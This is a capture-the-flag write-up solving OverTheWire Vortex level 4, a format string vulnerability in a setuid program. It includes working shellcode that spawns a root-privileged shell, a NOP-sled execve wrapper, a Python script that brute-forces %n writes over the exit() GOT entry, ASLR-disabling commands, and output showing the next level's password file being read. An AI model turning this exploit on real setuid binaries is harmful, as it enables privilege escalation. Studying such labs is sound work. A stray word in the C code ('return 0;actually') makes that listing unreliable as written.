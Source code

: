 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 4"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex4.png)

## Context

[This level](http://overthewire.org/wargames/vortex/vortex4.html) looks like a simple 3 lines program, containing a common issue - format string vulnerability:
```c
int main(int argc, char **argv)
{
 if(argc) exit(0);
 printf(argv[3]);
 exit(EXIT_FAILURE);
}
```

## 1. Bypass the check for arguments count
The program exits if the _`argc`_ variable is different than 0. _`argc`_ represents the length of _`argv`_ array, which has on the first position the program name (the name appearing on top and like utilities, for example). So _`argc`_ is always >=1.
But If we know how arguments and environment variables are passed to the main function when executing the binary,  we can bypass the verification and also pass something meaningful to _`printf`_ in _`argv[3]`_ argument.  The stack looks like this:
```
| argc | argv[0] | argv[1] ... |argv[argc-1]| NULL |env[0]|...|env[n]|NULL|
```

Where the first _`NULL`_ indicates the end of the _`argv`_ array, and the second one the end of the environment variables array. So if we pass _`NULL`_ as the _`argv`_ array, when the program tries to access _`argv[3]`_, it will in fact access _`env[2]`_, because the stack would look like this (_`argv[0]`_ points to the _`NULL`_ byte):
```
| 0 | NULL | env[0] | env[1] | env[2] | ...
```

In Python I couldn't call one of the _`exec`_ functions with _`argv`_ set to _`NULL`_, so I've used another method:
```c
char exe[] = "/vortex/vortex4";
 
char* argv[] = { NULL }; 
char* env[] = {"env0", "env1", "TEST", NULL};
 
execve(exe, argv, env);
```

## 2.  Pass the format string attack into an environment variable
We have to find out the approximate location of the environment variables in the memory. The Vortex labs machine has ASLR disabled. We can test with and without ASLR to see the variation of the environment variables' address, using the following simple program:
```c
/* 
 * Test program to find the location of envirnment variables on stack.
 *  - test with/without ASLR
 * 
 * To disable ASLR: 
 * echo 0 > /proc/sys/kernel/randomize_va_space
 * 
 * To enable ASLR:
 * echo 2 > /proc/sys/kernel/randomize_va_space
 * 
 */
 
#include <stdio .h>
 
extern char **environ;
 
/* Return the current stack pointer */
unsigned long find_esp(void){
 // Copy stack pointer into EAX
    __asm__("mov %esp, %eax");
     
    // Return value of the function is in EAX
}
 
int  main() {
 char **env = NULL;
  
    for (env = environ; *env; ++env)
        printf("%p:\t%s\n", env, *env);
 
    unsigned long p = find_esp(); 
    printf ("Current stack pointer: Ox%lx\n" , p) ;
         
    return 0;
}
```

## 3. Redirect program flow
We decide an address to overwrite to change the flow of the program. We can use the same trick as in the previous level: replace the address of _`exit()`_ function in _`.plt`_, which is called at the end of the program. We find it by searching relocations sections in the binary:
```bash
vortex4@melissa:/vortex$ readelf -r ./vortex4
[..]
Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
```

## 4. Shellcode
We'll place a shellcode (I've used the same 32 bytes I've used in the previous level, _`setuid + execve`_) in  the environment variable, with a big NOP sled before (I've used 500 bytes). In the format string before, try to overwrite the address we found above, _`0x0804a00c`_ (which I've actually replaced in 4 bytes: _`0x0804a00c`_, _`0x0804a00d`_, _`0x0804a00e`_, _`0x0804a00f`_). 

This was the hardest part. I've made a Python wrapper over the C wrapper containing the _`execve`_ instruction, that passes and brute-forces different format strings.

A good exercise to test the vulnerability is to first try to read memory (using _`%x`_ or _`%s`_ instead of _`%n`_ for writing), to find the actual position of the format string on the stack. I actually found that I needed 106 bytes to get to the format string on the stack. A trick that can be used here: direct parameter access in printf (using **$**), detailed in the [Single Unix Specification ](http://pubs.opengroup.org/onlinepubs/7908799/xsh/fprintf.html). For me, I could access the format string with the following parameter:
```bash
fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
```
I've adjusted it with fillers ('.'), and tuned the offset until I reached the correct one, 106. The Python brute-forcing script:
```python
import subprocess
 
''' 
Script to pass the format string and address to be overwritten to
the vortex 4 wrapper binary
'''
 
# 4 bytes to be modified (address of exit() in .plt - 0x0804a00c)
addr =  "\x0c\xa0\x04\x08" + \
        "\x0d\xa0\x04\x08" + \
        "\x0e\xa0\x04\x08" + \
        "\x0f\xa0\x04\x08"
 
# Read it, after many trial and errors
#fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
 
for i in range(1, 255):
        for j in range(1, 255):
                fmt = addr + "...." + \
                "%106$n%5$0" + str(i) + "d" + \
                "%107$n%5$0" + str(j) + "d" + \
                "%108$n" + \
                "%109$n"
                print "%d %d fmt: %s: " % (i, j, fmt)
                p = subprocess.Popen(['/tmp/myl4', fmt])
                 
                p.wait()
                # Ctrl-D to continue
```

And the C wrapper with _`execve`_ over vortex4 binary:
```c
/*
 * Wrapper over vortex 4 binary: 
 *  - byapss first argc check
 *  - pass shellcode in environment variable
 *  - receive format string from python wrapper (.. easier) 
 */
 
#include <stdio .h>
#include <string .h>
 
/* 32 bytes setuid(0) + execve("/bin/sh",["/bin/sh",NULL]); */
char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52"
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
        "\x89\xe1\xcd\x80";
 
char padding[500];
char NOP = '\x90';
int nops = 500;
 
int main(int argc, char **args) {
 char exe[] = "/vortex/vortex4";
 char sh[600] = {0};
  
 // Fill with lots of NOPs to make sure we reach the shellcode
 memset(padding, NOP, nops);
  
 memcpy(sh, padding, nops);
 memcpy(sh+nops, shellcode, strlen(shellcode));
  
 // argc wil be 0, because argv[0] is not set
 char* argv[] = { NULL }; 
 char* env[] = {"env0", "env1", args[1], sh, NULL};
 
 execve(exe, argv, env);
  
 return 0;actually
}
```

## 5. Put all the pieces together
```bash
vortex4@melissa:/tmp$ vim myl4.c
vortex4@melissa:/tmp$ vim myl4.py
vortex4@melissa:/tmp$ gcc -o myl4 myl4.c
vortex4@melissa:/tmp$ python myl4.py
[..]
202 33 fmt: 
���....%106$n%5$0202d%107$n%5$033d%108$n%109$n: 
$ id
uid=5004(vortex4) gid=5004(vortex4) euid=5005(vortex5) groups=5005(vortex5),5004(vortex4)
$ cat /etc/vortex_pass/vortex5
*****
```
